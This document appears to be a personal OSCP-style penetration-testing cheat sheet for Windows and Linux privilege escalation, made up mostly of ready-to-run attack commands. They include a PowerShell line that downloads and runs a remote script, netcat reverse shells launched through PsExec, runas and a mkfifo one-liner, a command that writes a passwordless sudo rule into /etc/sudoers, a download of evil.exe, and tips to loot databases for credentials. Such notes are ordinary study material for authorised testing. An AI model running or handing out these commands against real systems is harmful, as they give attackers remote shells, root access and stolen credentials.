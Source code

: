 # General
- Always try dump and default passwords for users on the system
- Always search source code for DB credentials ands loot the hell out of the db, looking for creds.
- Always enumerate users and try and known password for that user

Good overview for resources

https://xapax.gitbooks.io/security/

Basically just a dump of unstructured OSCP knowledge with some helpful items

https://github.com/doffensive/wired-courtyard

# Windows
## Tips and Hints
- .JOB files are scheduled jobs which are not registered with the schtasks.

## Powershell
Running Local Commands
```powershell
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```
Running commands from a remote host
```powershell
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.139/PowerUp.ps1'); Invoke-AllChecks"
```

## File Transfer

SMB
```batch
net use * \\10.11.0.56\draedis /User:root <PASSWORD>
```

FTP - Run script and copy and paste output to terminal window
```bash
$SCRIPTS/ftp_pull.sh <filename to download>
#ftp_push will push files from windows to kali
```

Powershell - Run script and copy and paste to terminal window
```bash
$SCRIPTS/powershell_dl.sh <file to download>
```

VBScript - Run script and copy and paste to terminal window, then run download on terminal window
```bash
# Kali
$SCRIPTS/win_wget_vb.sh
```
```batch
REM Windows
cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
```

PsExec for On Remote Machine
```batch
 C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
```

Powershell window to Run as a different user
```powershell
$username = '<username here>'
 $password = '<password here>'
 $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
 $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
 Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

 powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```

Runas (e.g. su) for Windows with other creds. CAN'T PASS PASSWORD THO!
```batch
 C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 Enter the password for Test:
 Attempting to start nc.exe as user "COMPUTERNAME\Test" ...
 ```

Compile python exploits to .exe for windows
```bash
 pip install pyinstaller
 wget -O exploit.py http://www.exploit-db.com/download/31853  
 python pyinstaller.py --onefile exploit.py
 ```

## Pre-Compiled Exploits
https://github.com/SecWiki/windows-kernel-exploits

## Cheat Sheets
Mother Script

http://www.fuzzysecurity.com/tutorials/16.html

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

Quick Items to Check

https://github.com/ibr2/pwk-cheatsheet#windows-privilege-escalation

OSCP based Guides

https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_windows.html

https://github.com/xapax/security/blob/master/privilege_escalation_windows.md

###
# Linux
## Tips and Hints
Upgrade shells
```python
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=linux
```

Check all files for ones that may be interesting (like authorized_keys)

Check SUID programs for ones that do not belong

Check sudo permissions

If run as root, get sudo permissions as low priv user
```bash
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

Find an app that is run as root and managle the path (setuid program for example). Think periodic script which runs (cron) or is already running
 ```bash
 set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
 echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
 chmod +x ssh
 ```

Always use google site:exploit-db.com <kernel_ver> to search for vulnerabilities, since not all are reported in the scripts. All vulns *should* be in searchsploit.
- `linux-exploit-suggester.sh` == most recent, but offline
- `linuxprivchecker.py` == good, but old exploits 
```bash
searchsploit "Linux Kernel"  
searchsploit linux 2.6 | grep -i ubuntu | grep local 
```

## Pre-Compiles Exploits
https://github.com/SecWiki/linux-kernel-exploits

## Cheat Sheets
Mother Script

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Some Quick Things to check

https://github.com/ibr2/pwk-cheatsheet#linux-privilege-escalation


Full, OSCP tailored a little

https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_-_linux.html






